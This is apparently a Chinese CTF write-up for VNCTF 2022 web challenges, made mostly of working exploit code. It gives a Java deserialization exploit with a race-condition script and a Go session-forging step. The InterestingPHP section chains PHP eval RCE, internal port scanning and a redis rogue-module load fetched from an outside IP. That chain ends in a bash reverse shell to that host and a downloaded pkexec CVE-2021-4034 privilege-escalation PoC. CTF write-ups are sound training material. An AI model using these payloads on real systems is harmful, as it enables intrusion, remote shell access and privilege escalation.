

# GameV4.0

这道题直接在对应的js文件里面搜,开始搜fl,看到有段base64编码,解码就拿到了flag

# easyjava

不过还好源码在电脑上,当时挺可惜,因为没导入包让CaSO4师傅反序列化,结果他忘了加package

跟进页面的提示来到了`/file?url=`

不过后面怎么加都是一个tomcat9.0.48的报错页面,开始以为是要去找对应的漏洞搜了一圈都没有找到

当时发现可以直接读文件,直接读etc/passwd可以直接读


因为是tomcat,所以对应的目录不是/var/www/html了

`/file?url=file:///usr/local/tomcat/webapps/ROOT/WEB-INF`发现了一个classes目录,里面一共6个class文件,挨着下下来审计



看到了个getFlag方法可以readflag


找利用点的时候也很简单,只有1处dopost调用了的

```
protected void doPost(HttpServletRequest req, HttpServletResponse resp) throws ServletException, IOException {
    String key = req.getParameter("key");
    String text = req.getParameter("base64");
    if (Secr3t.getKey().equals(key) && text != null) {
        Decoder decoder = Base64.getDecoder();
        byte[] textByte = decoder.decode(text);
        User u = (User)SerAndDe.deserialize(textByte);
        if (this.user.equals(u)) {
            this.Response(resp, "Deserialize…… Flag is " + Secr3t.getFlag().toString());
        }
    } else {
        this.Response(resp, "KeyError");
    }
```

但是要进入这个if需要key与`Secr3t.getKey()`相同


key是一个32位的随机的静态值,那肯定是有地方调用了这个getKey方法有返回值的

找一下调用getKey的地方


跟进doget


但是这两个if判断条件居然是一样的

当两个或多个线程同时访问同一个Servlet时，可能会发生多个线程同时访问同一资源的情况，数据可能会变得不一致。所以在用Servlet构建的Web应用时如果不注意线程安全的问题，会使所写的Servlet程序有难以发现的错误

```
public static boolean check(String checkStr) {
    return "vnctf2022".equals(checkStr);
}
```

这样我们就要通过条件竞争的方式绕过第一个if去请求第二个if

```
import requests

host = "http://8e5b3b73-2421-41a2-9c43-afef7ad2d4de.node4.buuoj.cn:81/"
while True:
    r = requests.get(host + "evi1?name=asdqwer")
    r.encoding = "utf-8"
    if r.text.find("The Key is") != -1:
        print(r.text)
    if (r.text.replace(" ", "") != ""):
        print(r.text)

```

```
import requests

host = "http://8e5b3b73-2421-41a2-9c43-afef7ad2d4de.node4.buuoj.cn:81/"
while True:
    r = requests.get(host + "evi1?name=vnctf2022")
    r.encoding = "utf-8"
    if r.text.find("The Key is") != -1:
        print(r.text)

```


进入if后

就挨着跟进了,接下来就是反序列化了,只要值一样就可以了


这里反序列就很简单了,基本上就是反序列化一个User对象,但是注意这个transient修饰的变量


直接反序列化出来为空了

但是这个类重写了readObject

```
private void readObject(ObjectInputStream s) throws IOException, ClassNotFoundException {
    s.defaultReadObject();
    this.height = (String)s.readObject();
}
```

那我就可以重写writeObject强制序列化height,在User中重写一个writeObject

```
private void writeObject(java.io.ObjectOutputStream s) throws java.io.IOException{
	s.defaultWriteObject();
	s.writeObject("180");
}
```

最后的exp

```
import entity.User;
import util.SerAndDe;

import java.io.ByteArrayOutputStream;
import java.io.IOException;
import java.io.ObjectOutputStream;
import java.util.Base64;

public class payload {
    public static void main(String[] args) throws IOException {
        User user = new User("m4n_q1u_666", "666", "180");
        ByteArrayOutputStream bos = new ByteArrayOutputStream();
        ObjectOutputStream oos = new ObjectOutputStream(bos);
        oos.writeObject(user);

        byte[] ser = bos.toByteArray();
        Base64.Encoder encoder = Base64.getEncoder();
        String encodedText = encoder.encodeToString(ser);
        System.out.println(encodedText);
        User user2 = (User) SerAndDe.deserialize(ser);
        System.out.println(user2);
    }

}

```

注意package一定要写对


# Gocalc0

原来的非预期,把拿到的session两次base64解码即可

预期解

用SSTI拿到源代码`{{.}}`

```
package main

import (
   _ "embed"
   "fmt"
   "os"
   "reflect"
   "strings"
   "text/template"

   "github.com/gin-contrib/sessions"
   "github.com/gin-contrib/sessions/cookie"
   "github.com/gin-gonic/gin"
   "github.com/maja42/goval"
)

//go:embed template/index.html
var tpl string

//go:embed main.go
var source string

type Eval struct {
   E string `json:"e" form:"e" binding:"required"`
}

func (e Eval) Result() (string, error) {
   eval := goval.NewEvaluator()
   result, err := eval.Evaluate(e.E, nil, nil)
   if err != nil {
      return "", err
   }
   t := reflect.ValueOf(result).Type().Kind()

   if t == reflect.Int {
      return fmt.Sprintf("%d", result.(int)), nil
   } else if t == reflect.String {
      return result.(string), nil
   } else {
      return "", fmt.Errorf("not valid type")
   }
}

func (e Eval) String() string {
   res, err := e.Result()
   if err != nil {
      fmt.Println(err)
      res = "invalid"
   }
   return fmt.Sprintf("%s = %s", e.E, res)
}

func render(c *gin.Context) {
   session := sessions.Default(c)

   var his string

   if session.Get("history") == nil {
      his = ""
   } else {
      his = session.Get("history").(string)
   }

   fmt.Println(strings.ReplaceAll(tpl, "{{result}}", his))
   t, err := template.New("index").Parse(strings.ReplaceAll(tpl, "{{result}}", his))
   if err != nil {
      fmt.Println(err)
      c.String(500, "internal error")
      return
   }
   if err := t.Execute(c.Writer, map[string]string{
      "s0uR3e": source,
   }); err != nil {
      fmt.Println(err)
   }
}

func main() {
   port := os.Getenv("PORT")
   if port == "" {
      port = "8080"
   }

   r := gin.Default()
   store := cookie.NewStore([]byte("woW_you-g0t_sourcE_co6e"))
   r.Use(sessions.Sessions("session", store))

   r.GET("/", func(c *gin.Context) {
      render(c)
   })

   r.GET("/flag", func(c *gin.Context) {
      session := sessions.Default(c)
      session.Set("FLAG", os.Getenv("FLAG"))
      session.Save()
      c.String(200, "flag is in your session")
   })

   r.POST("/", func(c *gin.Context) {
      session := sessions.Default(c)

      var his string

      if session.Get("history") == nil {
         his = ""
      } else {
         his = session.Get("history").(string)
      }

      eval := Eval{}
      if err := c.ShouldBind(&eval); err == nil {
         his = his + eval.String() + "
```

然后根据他的session在本地起一个一样的

```
package main

import (
   _ "embed"
   "fmt"
   "os"

   "github.com/gin-contrib/sessions"
   "github.com/gin-contrib/sessions/cookie"
   "github.com/gin-gonic/gin"
)

func main() {
   port := os.Getenv("PORT")
   if port == "" {
      port = "8080"
   }
   r := gin.Default()
   store := cookie.NewStore([]byte("woW_you-g0t_sourcE_co6e"))
   r.Use(sessions.Sessions("session", store))
   r.GET("/flag", func(c *gin.Context) {
      session := sessions.Default(c)
      println(session.Get("FLAG").(string))
   })
   r.Run(fmt.Sprintf(":%s", port))
}
```

然后访问flag路由，手动添加一个cookie,名字为session的值和原来一样的


重新访问


# InterestingPHP

这题有点恶心了,直接把phpinfo都ban了

不过可以试试其他方法来读取配置信息

```
var_dump(get_cfg_var("disable_functions"));
var_dump(get_cfg_var("open_basedir"));
var_dump(ini_get_all());
```


还是ban了有这么多函数

那先看看当前目录下的文件

```
http://ac6da717-484f-4cb4-a233-d0d637678502.node4.buuoj.cn:81/?exp=print_r(scandir("."));
```


有个secret.rdb

highlight这些读文件的还在


看到了与redis相关的东西,得到了redis的`key:"ye_w4nt_a_gir1fri3nd"`

因为这里并不是6379端口,所以我们需要自己去找redis服务对应的端口

这里对端口的扫描有两种方法

**python脚本**

```
import requests
from urllib import parse

url = "http://ac6da717-484f-4cb4-a233-d0d637678502.node4.buuoj.cn:81/?exp=eval($_POST[0]);"
headers = {"content-type": "application/x-www-form-urlencoded"}

payload = '''
      function Curl($url) {
            $ch = curl_init();
            curl_setopt($ch, CURLOPT_URL, $url);
            curl_setopt ( $ch, CURLOPT_RETURNTRANSFER, true );
            $result = curl_exec($ch);
            curl_close($ch);
            if($result!=''){
            echo $result.$url;
            }

        } 
        for($i=0;$i<9999;$i++){
            Curl("dict://127.0.0.1:$i/info");
            }
        '''

data = {
    0: payload
}

r = requests.post(url, data=data, headers=headers).text
print(r)
```


复现了80和8888端口

**上传文件**

file_put_contents还可以用,使用 stream_socket_server() 来探测端⼝

将以下代码写入到当前目录下

```
<?php
highlight_file(__FILE__);
# Port scan
for($i=0;$i<65535;$i++) {
  $t=stream_socket_server("tcp://0.0.0.0:".$i,$ee,$ee2);
  if($ee2 === "Address already in use") {
    var_dump($i);
  }
}
```

```
http://ac6da717-484f-4cb4-a233-d0d637678502.node4.buuoj.cn:81/?exp=eval(file_put_contents("1.php",base64_decode($_POST['a'])));

POST:
PD9waHAKaGlnaGxpZ2h0X2ZpbGUoX19GSUxFX18pOwojIFBvcnQgc2Nhbgpmb3IoJGk9MDskaTw2NTUzNTskaS
srKSB7CiAgJHQ9c3RyZWFtX3NvY2tldF9zZXJ2ZXIoInRjcDovLzAuMC4wLjA6Ii4kaSwkZWUsJGVlMik7CiAgaW
YoJGVlMiA9PT0gIkFkZHJlc3MgYWxyZWFkeSBpbiB1c2UiKSB7CiAgICB2YXJfZHVtcCgkaSk7CiAgfQp9Cg==
```


同样探测到80和8888端口

有端口有密钥,正常的想法就是用redis的主从复制RCE

按照常规思路是可以利用蚁剑等工具直接连接redis来实现主从复制RCE的，

但是蚁剑是利用 stream_get_contents() 来实现redis连接交互的，这里ban了这个函数，所以需要寻找其他的⽅法来和redis交互


因为file_put_contents没有被办，可以来写so文件

不过file_get_contents没有了,不过可以用curl来加载恶意的so文件

恶意so文件编写:https://github.com/n0b0dyCN/redis-rogue-server/tree/master/RedisModulesSDK

直接把exp.c编译为so即可

首先把恶意的so写到靶机的web目录下

```
import requests

url = "http://ac6da717-484f-4cb4-a233-d0d637678502.node4.buuoj.cn:81/?exp=eval($_POST[0]);"
headers = {"content-type": "application/x-www-form-urlencoded"}
pay = "http://47.93.248.221/exp.so"
payload = '''
      function Curl($url) {
            $ch = curl_init();
            curl_setopt($ch, CURLOPT_URL, $url);
            curl_setopt ( $ch, CURLOPT_RETURNTRANSFER, true );
            $result = curl_exec($ch);
            curl_close($ch);
            file_put_contents("exp.so",$result);
      }

      Curl("''' + pay + '''");
'''.strip()

data = {
    0: payload
}
r = requests.post(url, data, headers=headers).text
print(r)
```

然后加载so,反弹shell

```
import base64
import requests

url = "http://ac6da717-484f-4cb4-a233-d0d637678502.node4.buuoj.cn:81/?exp=eval(base64_decode($_POST[0]));"
payload = '''
        $redis = new Redis();
        $redis->connect('127.0.0.1',8888);
        $redis->auth('ye_w4nt_a_gir1fri3nd');
        $redis->rawCommand('module','load','/var/www/html/exp.so');
        $redis->rawCommand("system.exec","bash -c 'exec bash -i &>/dev/tcp/47.93.248.221/2333 <&1'");
'''
payload=base64.b64encode(payload.encode(encoding="utf-8"))
data = {
    0: payload
}
r = requests.post(url, data=data).text
print(r)
```

但是读flag的时候发现权限不够


这里用到了最新爆出的pkexec提权漏洞:https://github.com/arthepsy/CVE-2021-4034

```
curl http://47.93.248.221/cve-2021-4034-poc.c > /tmp/snakin.c
gcc snakin.c -o snakin
./snakin
```


